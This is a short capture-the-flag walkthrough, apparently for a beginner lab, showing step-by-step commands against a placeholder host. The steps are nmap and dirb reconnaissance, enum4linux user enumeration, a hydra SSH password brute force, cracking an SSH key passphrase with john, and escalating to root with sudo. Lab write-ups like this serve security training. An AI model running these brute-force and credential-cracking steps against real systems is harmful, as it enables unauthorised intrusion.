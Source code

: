 #### 1. Let's use nmap to get some info about our target

```
nmap -A 1.2.3.4
```

* We see that ssh is running, maybe we can target that.


&nbsp;

#### 2. Let's also get dirb running to find some folders on the webapp

```
dirb http://1.2.3.4
```

* Here we find the that hidden directory's name is "development"

&nbsp;

#### 3. Since we know ssh is running, lets try enumerating users and other info

```
enum4linux -a 1.2.3.4
```

* we find 2 users, jan and kay

&nbsp;

#### 4. Now that we have some users, lets try to brute force their ssh credentials

```
hydra -l jan -P rockyou.txt ssh://1.2.3.4
```

* jan password = armando

&nbsp;

#### 5. We find kay's ssh private key and download for cracking with john

```
python ssh2john.py id_rsa > id_rsa.forjohn
john --wordlist=rockyou.txt id_rsa.forjohn
```

* kay's private key password = beeswax

&nbsp;

#### 6. After we ssh in as kay, we can simply display the backup password

```
cat pass.bak
```

* kay password = heresareallystrongpasswordthatfollowsthepasswordpolicy$$

&nbsp;

#### Bonus! They did not lock down root so we can sudo ourselves up

```
sudo su
ls /root
```

* We see the final flag, and the mission is complete. 
